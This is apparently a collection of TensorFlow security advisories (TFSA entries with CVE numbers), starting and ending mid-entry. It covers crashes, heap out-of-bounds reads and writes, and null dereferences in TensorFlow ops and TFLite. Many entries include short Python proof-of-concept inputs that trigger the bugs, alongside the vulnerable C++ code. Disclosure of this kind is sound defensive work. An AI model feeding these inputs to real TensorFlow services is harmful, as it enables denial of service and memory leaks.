[b055b9c474cd376259dde8779908f9eeaf097d93](https://github.com/tensorflow/tensorflow/commit/b055b9c474cd376259dde8779908f9eeaf097d93).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-173: Segfault due to negative splits in `SplitV`

### CVE Number
CVE-2021-41222

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/split_v_op.cc#L49-L205) of `SplitV` can trigger a segfault is an attacker supplies negative arguments:

```python
import tensorflow as tf

tf.raw_ops.SplitV(
  value=tf.constant([]),
  size_splits=[-1, -2]
  ,axis=0,
  num_split=2)
```

This occurs whenever `size_splits` contains more than one value and at least one value is negative.

### Patches
We have patched the issue in GitHub commit [25d622ffc432acc736b14ca3904177579e733cc6](https://github.com/tensorflow/tensorflow/commit/25d622ffc432acc736b14ca3904177579e733cc6).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-079: Null pointer dereference in TFLite's `Reshape` operator

### CVE Number
CVE-2021-29592

### Impact
The fix for [CVE-2020-15209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15209)
missed the case when the target shape of `Reshape` operator is given by the
elements of a 1-D tensor. As such, the [fix for the
vulnerability](https://github.com/tensorflow/tensorflow/blob/9c1dc920d8ffb4893d6c9d27d1f039607b326743/tensorflow/lite/core/subgraph.cc#L1062-L1074)
allowed passing a null-buffer-backed tensor with a 1D shape:

```cc
if (tensor->data.raw == nullptr && tensor->bytes > 0) {
  if (registration.builtin_code == kTfLiteBuiltinReshape && i == 1) {
    // In general, having a tensor here with no buffer will be an error.
    // However, for the reshape operator, the second input tensor is only
    // used for the shape, not for the data. Thus, null buffer is ok.
    continue;
  } else {
    // In all other cases, we need to return an error as otherwise we will
    // trigger a null pointer dereference (likely).
    ReportError("Input tensor %d lacks data", tensor_index);
    return kTfLiteError;
  }
}
```

### Patches
We have patched the issue in GitHub commit
[f8378920345f4f4604202d4ab15ef64b2aceaa16](https://github.com/tensorflow/tensorflow/commit/f8378920345f4f4604202d4ab15ef64b2aceaa16).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-161: Heap OOB in TFLite's `Gather*` implementations

### CVE Number
CVE-2021-37687

### Impact
TFLite's [`GatherNd`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather_nd.cc#L124)
does not support negative indices but there are no checks for this situation.

Hence, an attacker can read arbitrary data from the heap by carefully crafting a
model with negative values in `indices`.

Similar issue exists in [`Gather`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather.cc).

```python
import tensorflow as tf
import numpy as np
tf.compat.v1.disable_v2_behavior()

params = tf.compat.v1.placeholder(name="params", dtype=tf.int64, shape=(1,))
indices = tf.compat.v1.placeholder(name="indices", dtype=tf.int64, shape=())

out = tf.gather(params, indices, name='out')

with tf.compat.v1.Session() as sess:
   converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [params, indices], [out])
   tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

params_data = np.reshape(np.array([1], dtype=np.int64), newshape=(1,))
indices_data = np.reshape(np.array(-10, dtype=np.int64), newshape=())
interpreter.set_tensor(input_details[0]['index'], params_data)
interpreter.set_tensor(input_details[1]['index'], indices_data)

interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commits
[bb6a0383ed553c286f87ca88c207f6774d5c4a8f](https://github.com/tensorflow/tensorflow/commit/bb6a0383ed553c286f87ca88c207f6774d5c4a8f)
and
[eb921122119a6b6e470ee98b89e65d721663179d](https://github.com/tensorflow/tensorflow/commit/eb921122119a6b6e470ee98b89e65d721663179d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-123: Null pointer dereference in `UncompressElement`

### CVE Number
CVE-2021-37649

### Impact
The code for `tf.raw_ops.UncompressElement` can be made to trigger a null
pointer dereference:

```python
import tensorflow as tf

data = tf.data.Dataset.from_tensors([0.0])
tf.raw_ops.UncompressElement(
  compressed=tf.data.experimental.to_variant(data),
  output_types=[tf.int64],
  output_shapes=[2])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/data/experimental/compression_ops.cc#L50-L53)
obtains a pointer to a `CompressedElement` from a `Variant` tensor and then
proceeds to dereference it for decompressing. There is no check that the
`Variant` tensor contained a `CompressedElement`, so the pointer is actually
`nullptr`.

### Patches
We have patched the issue in GitHub commit
[7bdf50bb4f5c54a4997c379092888546c97c3ebd](https://github.com/tensorflow/tensorflow/commit/7bdf50bb4f5c54a4997c379092888546c97c3ebd).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-028: Float cast overflow undefined behavior

### CVE Number
CVE-2020-15266

### Impact
When the `boxes` argument of `tf.image.crop_and_resize` has a very large value,
the CPU kernel implementation receives it as a C++ `nan` floating point value.
Attempting to operate on this is undefined behavior which later produces a
segmentation fault.

### Patches

We have patched the issue in
[c0319231333f0f16e1cc75ec83660b01fedd4182](https://github.com/tensorflow/tensorflow/commit/c0319231333f0f16e1cc75ec83660b01fedd4182)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported in
[#42129](https://github.com/tensorflow/issues/42129).
## TFSA-2021-080: Stack overflow due to looping TFLite subgraph

### CVE Number
CVE-2021-29591

### Impact
TFlite graphs must not have loops between nodes. However, this condition was not
checked and an attacker could craft models that would result in infinite loop
during evaluation. In certain cases, the infinite loop would be replaced by
stack overflow due to too many recursive calls.

For example, the [`While`
implementation](https://github.com/tensorflow/tensorflow/blob/106d8f4fb89335a2c52d7c895b7a7485465ca8d9/tensorflow/lite/kernels/while.cc)
could be tricked into a scneario where both the body and the loop subgraphs are
the same. Evaluating one of the subgraphs means calling the `Eval` function for
the other and this quickly exhaust all stack space.

### Patches
We have patched the issue in GitHub commit
[9c1dc920d8ffb4893d6c9d27d1f039607b326743](https://github.com/tensorflow/tensorflow/commit/9c1dc920d8ffb4893d6c9d27d1f039607b326743)
(for the `While` operator) and in GitHub commit
[c6173f5fe66cdbab74f4f869311fe6aae2ba35f4](https://github.com/tensorflow/tensorflow/commit/c6173f5fe66cdbab74f4f869311fe6aae2ba35f4)
(in general).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-050: `CHECK`-fail in `tf.raw_ops.IRFFT`

### CVE Number
CVE-2021-29562

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.IRFFT`:

```python
import tensorflow as tf

values = [-10.0] * 130
values[0] = -9.999999999999995
inputs = tf.constant(values, shape=[10, 13], dtype=tf.float32)
inputs = tf.cast(inputs, dtype=tf.complex64)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.IRFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[1c56f53be0b722ca657cbc7df461ed676c8642a2](https://github.com/tensorflow/tensorflow/commit/1c56f53be0b722ca657cbc7df461ed676c8642a2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-013: Division by 0 in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29524

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 1, 0], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(input=input_tensor, filter_sizes=filter_sizes,
                                out_backprop=out_backprop,
                                strides=[1, 66, 18, 1], use_cudnn_on_gpu=True,
                                padding='SAME', explicit_paddings=[],
                                data_format='NHWC', dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/496c2630e51c1a478f095b084329acedb253db6b/tensorflow/core/kernels/conv_grad_shape_utils.cc#L130) does a modulus operation where the divisor is controlled by the caller:

```cc
  if (dims->in_depth % filter_shape.dim_size(num_dims - 2)) { ... }
```

### Patches
We have patched the issue in GitHub commit
[fca9874a9b42a2134f907d2fb46ab774a831404a](https://github.com/tensorflow/tensorflow/commit/fca9874a9b42a2134f907d2fb46ab774a831404a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2018-001: BMP File Parser Out-of-bounds Read.

### CVE Number

CVE-2018-21233

### Issue Description

The BMP (bitmap image file graphics format) decoder had an out-of-bounds read
due to insufficient checking of header sizes and signed integer values. 

### Impact

The most likely consequence of this vulnerability would be that an invalid BMP
file could lead to an unhandled process crash, but may permit read access to
unintended regions of the TensorFlow process memory.

### Vulnerable Versions

TensorFlow 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0, 1.5.1, 1.6.0

### Mitigation

We have patched the vulnerability in GitHub commit
[49f73c55](https://github.com/tensorflow/tensorflow/commit/49f73c55d56edffebde4bca4a407ad69c1cae433).
If users are running TensorFlow in production or on untrusted data, they are
encouraged to apply this patch.

Additionally, this patch has already been integrated into TensorFlow 1.7.0 and
newer.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2020-004: Out of bounds access in TFLite implementation of segment sum

### CVE Number
CVE-2020-15212

### Impact
In TensorFlow Lite models using segment sum can trigger [writes outside of
bounds of heap allocated
buffers](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/internal/reference/reference_ops.h#L2625-L2631)
by inserting negative elements in the segment ids tensor:
```cc
  for (int i = 0; i < input_shape.Dims(0); i++) {
    int output_index = segment_ids_data[i];
    for (int j = 0; j < segment_flat_size; ++j) {
      output_data[output_index * segment_flat_size + j] +=
          input_data[i * segment_flat_size + j];
    }
  }
```

Users having access to `segment_ids_data` can alter `output_index` and then
write to outside of `output_data` buffer.

This might result in a segmentation fault but it can also be used to further
corrupt the memory and can be chained with other vulnerabilities to create more
advanced exploits.

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[204945b](https://github.com/tensorflow/tensorflow/commit/204945b) and will
release patch releases for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1, or 2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to the model loading
code to ensure that the segment ids are all positive, although this only handles
the case when the segment ids are stored statically in the model.

A similar validation could be done if the segment ids are generated at runtime
between inference steps.

If the segment ids are generated as outputs of a tensor during inference steps,
then there are no possible workaround and users are advised to upgrade to
patched code.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-002.md).
## TFSA-2020-032: Heap out of bounds read in filesystem glob matching

### CVE Number
CVE-2020-26269

### Impact
The general implementation for matching filesystem paths to globbing pattern is
vulnerable to an access out of bounds of [the array holding the
directories](https://github.com/tensorflow/tensorflow/blob/458c6260265c46ebaf18052d6c61aea4b6b40926/tensorflow/core/platform/file_system_helper.cc#L127):

```cc
if (!fs->Match(child_path, dirs[dir_index])) { ... }
```

Since `dir_index` is [unconditionaly
incremented](https://github.com/tensorflow/tensorflow/blob/458c6260265c46ebaf18052d6c61aea4b6b40926/tensorflow/core/platform/file_system_helper.cc#L106)
outside of the lambda function where the vulnerable pattern occurs, this results
in an access out of bounds issue under certain scenarios. For example, if
`/tmp/x` is a directory that only contains a single file `y`, then the following
snippet will cause a crash due to the out of bounds read:

```python
>>> tf.io.gfile.glob('/tmp/x/')
Segmentation fault
```

There are multiple invariants and preconditions that are assumed by the parallel
implementation of `GetMatchingPaths` but are not verified by the PRs introducing
it ([#40861](https://github.com/tensorflow/tensorflow/pull/40861) and
[#44310](https://github.com/tensorflow/tensorflow/pull/44310)). Thus, we are
completely rewriting the implementation to fully specify and validate these.

### Patches

We have patched the issue in GitHub commit
[8b5b9dc96666a3a5d27fad7179ff215e3b74b67c](https://github.com/tensorflow/tensorflow/commit/8b5b9dc96666a3a5d27fad7179ff215e3b74b67c)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

This issue only impacts master branch and the release candidates for TF version
2.4. The final release of the 2.4 release will be patched.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-129: Heap OOB in `ResourceScatterUpdate`

### CVE Number
CVE-2021-37655

### Impact
An attacker can trigger a read from outside of bounds of heap allocated data by
sending invalid arguments to `tf.raw_ops.ResourceScatterUpdate`:

```python
import tensorflow as tf

v = tf.Variable([b'vvv'])
tf.raw_ops.ResourceScatterUpdate(
  resource=v.handle,
  indices=[0],
  updates=['1', '2', '3', '4', '5'])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/resource_variable_ops.cc#L919-L923)
has an incomplete validation of the relationship between the shapes of `indices`
and `updates`: instead of checking that the shape of `indices` is a prefix of
the shape of `updates` (so that broadcasting can happen), code only checks that
the number of elements in these two tensors are in a divisibility relationship.

### Patches
We have patched the issue in GitHub commit
[01cff3f986259d661103412a20745928c727326f](https://github.com/tensorflow/tensorflow/commit/01cff3f986259d661103412a20745928c727326f).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-002: Out of bounds write in TFLite implementation of segment sum

### CVE Number
CVE-2020-15214

### Impact
In TensorFlow Lite models using segment sum can trigger a write out bounds /
segmentation fault if the segment ids are not sorted. Code assumes that the
segment ids are in increasing order, [using the last element of the tensor
holding them to determine the dimensionality of output
tensor](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/segment_sum.cc#L39-L44):
```cc
  if (segment_id_size > 0) {
    max_index = segment_ids->data.i32[segment_id_size - 1];
  }
  TfLiteIntArray* output_shape = TfLiteIntArrayCreate(NumDimensions(data));
  output_shape->data[0] = max_index + 1;
```

This results in allocating insufficient memory for the output tensor and in a
[write outside the bounds of the output
array](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/internal/reference/reference_ops.h#L2625-L2631):
```cc
  memset(output_data, 0, sizeof(T) * output_shape.FlatSize());
  for (int i = 0; i < input_shape.Dims(0); i++) {
    int output_index = segment_ids_data[i];
    for (int j = 0; j < segment_flat_size; ++j) {
      output_data[output_index * segment_flat_size + j] +=
          input_data[i * segment_flat_size + j];
    }
  }
```

This usually results in a segmentation fault, but depending on runtime
conditions it can provide for a write gadget to be used in future memory
corruption-based exploits.

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[204945b](https://github.com/tensorflow/tensorflow/commit/204945b) and will
release patch releases for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1, or 2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to the model loading
code to ensure that the segment ids are sorted, although this only handles the
case when the segment ids are stored statically in the model.

A similar validation could be done if the segment ids are generated at runtime
between inference steps.

If the segment ids are generated as outputs of a tensor during inference steps,
then there are no possible workaround and users are advised to upgrade to
patched code.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-195: Overflow/crash in `tf.image.resize` when size is large

### CVE Number
CVE-2021-41199

### Impact
If `tf.image.resize` is called with a large input argument then the TensorFlow process will crash due to a `CHECK`-failure caused by an overflow.

```python
import tensorflow as tf
import numpy as np

tf.keras.layers.UpSampling2D(
  size=1610637938,
  data_format='channels_first',
  interpolation='bilinear')(np.ones((5,1,1,1)))
```

The number of elements in the output tensor is too much for the `int64_t` type and the overflow is detected via a `CHECK` statement. This aborts the process.

### Patches
We have patched the issue in GitHub commit [e5272d4204ff5b46136a1ef1204fc00597e21837](https://github.com/tensorflow/tensorflow/commit/e5272d4204ff5b46136a1ef1204fc00597e21837) (merging [#51497](https://github.com/tensorflow/tensorflow/pull/51497)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46914).
## TFSA-2021-153: Heap OOB in nested `tf.map_fn` with `RaggedTensor`s

### CVE Number
CVE-2021-37679

### Impact
It is possible to nest a `tf.map_fn` within another `tf.map_fn` call. However,
if the input tensor is a `RaggedTensor` and there is no function signature
provided, code assumes the output is a fully specified tensor and fills output
buffer with uninitialized contents from the heap:

```python
import tensorflow as tf
x = tf.ragged.constant([[1,2,3], [4,5], [6]])
t = tf.map_fn(lambda r: tf.map_fn(lambda y: r, r), x)
z = tf.ragged.constant([[[1,2,3],[1,2,3],[1,2,3]],[[4,5],[4,5]],[[6]]])
```

The `t` and `z` outputs should be identical, however this is not the case. The
last row of `t` contains data from the heap which can be used to leak other
memory information.

The bug lies in the conversion from a `Variant` tensor to a `RaggedTensor`. The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/ragged_tensor_from_variant_op.cc#L177-L190)
does not check that all inner shapes match and this results in the additional
dimensions in the above example.

The same implementation can result in data loss, if input tensor is tweaked:

```python
import tensorflow as tf
x = tf.ragged.constant([[1,2], [3,4,5], [6]])
t = tf.map_fn(lambda r: tf.map_fn(lambda y: r, r), x)
```

Here, the output tensor will only have 2 elements for each inner dimension.

### Patches
We have patched the issue in GitHub commit
[4e2565483d0ffcadc719bd44893fb7f609bb5f12](https://github.com/tensorflow/tensorflow/commit/4e2565483d0ffcadc719bd44893fb7f609bb5f12).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Haris Sahovic.
## TFSA-2021-183: Heap OOB read in `tf.ragged.cross`

### CVE Number
CVE-2021-41212

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/ragged_array_ops.cc#L64) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.RaggedCross(ragged_values=[],
                             ragged_row_splits=[],
                             sparse_indices=[[5]],
                             sparse_values=[],
                             sparse_shape=[5],
                             dense_inputs=[['a']],
                             input_order='RD',
                             hashed_output=False,
                             num_buckets=5,
                             hash_key=2,
                             out_values_type=tf.string,
                             out_row_splits_type=tf.int64)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/tensorflow/tensorflow/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-064: Heap buffer overflow in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29576

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

values = [0.01] * 11
orig_input = tf.constant(values, shape=[11, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.01], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([0.01], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/596c05a159b6fbb9e39ca10b3f7753b7244fa1e9/tensorflow/core/kernels/pooling_ops_3d.cc#L694-L696)
does not check that the initialization of `Pool3dParameters` completes
successfully:

```cc
Pool3dParameters params{context,  ksize_,       stride_,
                        padding_, data_format_, tensor_in.shape()};
```

Since [the
constructor](https://github.com/tensorflow/tensorflow/blob/596c05a159b6fbb9e39ca10b3f7753b7244fa1e9/tensorflow/core/kernels/pooling_ops_3d.cc#L48-L88)
uses `OP_REQUIRES` to validate conditions, the first assertion that fails
interrupts the initialization of `params`, making it contain invalid data. In
turn, this might cause a heap buffer overflow, depending on default initialized
values.

### Patches
We have patched the issue in GitHub commit
[63c6a29d0f2d692b247f7bf81f8732d6442fad09](https://github.com/tensorflow/tensorflow/commit/63c6a29d0f2d692b247f7bf81f8732d6442fad09).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-111: Null pointer dereference in `CompressElement`

### CVE Number
CVE-2021-37637

### Impact
It is possible to trigger a null pointer dereference in TensorFlow by passing an
invalid input to `tf.raw_ops.CompressElement`:

```python
import tensorflow as tf

tf.raw_ops.CompressElement(components=[[]])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/47a06f40411a69c99f381495f490536972152ac0/tensorflow/core/data/compression_utils.cc#L34)
was accessing the size of a buffer obtained from the return of a separate
function call before validating that said buffer is valid.

### Patches
We have patched the issue in GitHub commit
[5dc7f6981fdaf74c8c5be41f393df705841fb7c5](https://github.com/tensorflow/tensorflow/commit/5dc7f6981fdaf74c8c5be41f393df705841fb7c5).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360. Concurrently, it was resolved in `master` branch as it was also discovered
internally and fixed before the report was handled.
## TFSA-2021-160: Heap OOB in TFLite

### CVE Number
CVE-2021-37685

### Impact
TFLite's
[`expand_dims.cc`](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/expand_dims.cc#L36-L50)
contains a vulnerability which allows reading one element outside of bounds of
heap allocated data:

```cc
  if (axis < 0) {
    axis = input_dims.size + 1 + axis;
  }
  TF_LITE_ENSURE(context, axis <= input_dims.size);

  TfLiteIntArray* output_dims = TfLiteIntArrayCreate(input_dims.size + 1);
  for (int i = 0; i < output_dims->size; ++i) {
    if (i < axis) {
      output_dims->data[i] = input_dims.data[i];
    } else if (i == axis) {
      output_dims->data[i] = 1;
    } else {
      output_dims->data[i] = input_dims.data[i - 1];
    }
  }
```

If `axis` is a large negative value (e.g., `-100000`), then after the first `if`
it would still be negative. The check following the `if` statement will pass and
the `for` loop would read one element before the start of `input_dims.data`
(when `i = 0`).

### Patches
We have patched the issue in GitHub commit
[d94ffe08a65400f898241c0374e9edc6fa8ed257](https://github.com/tensorflow/tensorflow/commit/d94ffe08a65400f898241c0374e9edc6fa8ed257).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-001: Heap buffer overflow in `RaggedBinCount`

### CVE Number
CVE-2021-29512

### Impact
If the `splits` argument of `RaggedBincount` does not specify a valid
[`SparseTensor`](https://www.tensorflow.org/api_docs/python/tf/sparse/SparseTensor),
then an attacker can trigger a heap buffer overflow:

```python
import tensorflow as tf
tf.raw_ops.RaggedBincount(splits=[0], values=[1,1,1,1,1], size=5, weights=[1,2,3,4], binary_output=False)
```

This will cause a read from outside the bounds of the `splits` tensor buffer in
the [implementation of the `RaggedBincount`
op](https://github.com/tensorflow/tensorflow/blob/8b677d79167799f71c42fd3fa074476e0295413a/tensorflow/core/kernels/bincount_op.cc#L430-L433):

```cc
    for (int idx = 0; idx < num_values; ++idx) {
      while (idx >= splits(batch_idx)) {
        batch_idx++;
      }
      ...
    }
```

Before the `for` loop, `batch_idx` is set to 0. The user controls the `splits`
array, making it contain only one element, 0. Thus, the code in the `while` loop
would increment `batch_idx` and then try to read `splits(1)`, which is outside
of bounds.

### Patches
We have patched the issue in GitHub commit
[eebb96c2830d48597d055d247c0e9aebaea94cd5](https://github.com/tensorflow/tensorflow/commit/eebb96c2830d48597d055d247c0e9aebaea94cd5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3, as these are also affected.

